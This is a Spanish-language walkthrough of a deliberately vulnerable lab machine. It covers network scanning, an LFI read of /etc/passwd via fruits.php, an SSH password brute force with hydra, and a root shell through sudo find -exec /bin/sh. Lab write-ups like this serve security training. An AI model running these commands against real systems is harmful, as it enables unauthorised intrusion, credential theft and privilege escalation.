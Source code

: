 ![](images/Pasted%20image%2020250910184201.png)

Una vez importado la .ova en nuestro hipervisor le daremos a iniciar. 

No vamos a nuestro Kali Linux y tenemos que ver cuál es nuestra IP.

```
ip addr
```

![](images/Pasted%20image%2020250910184802.png)

A continuación haremos un escaneo con arp-scan.

```
arp-scan -I eth0 --localnet
```

![](images/Pasted%20image%2020250910185148.png)

Ahora, haremos un escaneo de los puertos abiertos. 

```
nmap -p- --open -sS -T4 -n -Pn -vvv 10.0.2.6
```

![](images/Pasted%20image%2020250910185340.png)

Dos puertos abiertos. 
El primero que vamos a ver es el puerto 80 que es una página web. 
![](images/Pasted%20image%2020250910185523.png)

Lo que podemos hacer es buscar más directorio. 

```
gobuster dir -u http://10.0.2.6/ -w /usr/share/wordlists/rockyou.txt -x txt,py,sh,php
```

Nos sale un directorio fruits.php, así que lo que intentaremos hacer es a ver si podemos encontrar algún tipo de vulnerabilidad entorno a Local File Inclusion.


Usaremos wfuzz. 

```
wfuzz -c --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.0.2.6/fruits.php?FUZZ=/etc/passwd
```

![](images/Pasted%20image%2020250910192920.png)


Ahora nos vamos al buscador y metemos lo siguiente: 

```
http://10.0.2.6/fruits.php?file=/etc/passwd
```

![](images/Pasted%20image%2020250910193136.png)

Nos encuentra un posible usuario: bananaman

EXPLOTACIÓN

Utilizaremos hydra.

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.6
```

Y ahí tenemos la contraseña. 

![](images/Pasted%20image%2020250910193551.png)

Y ahora entramos por vía ssh.

![](images/Pasted%20image%2020250910193655.png)

![](images/Pasted%20image%2020250910193837.png)

Ahora para hacer escalada de privilegio, nos vamos a la terminal de bananaman y meteremos sudo -l 
![](images/Pasted%20image%2020250910194051.png)

Ahora nos vamos a la página de https://gtfobins.github.io/

Y meteremos lo siguiente: 

```
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```


![](images/Pasted%20image%2020250910194451.png)

Y ya tendríamos los flags. 

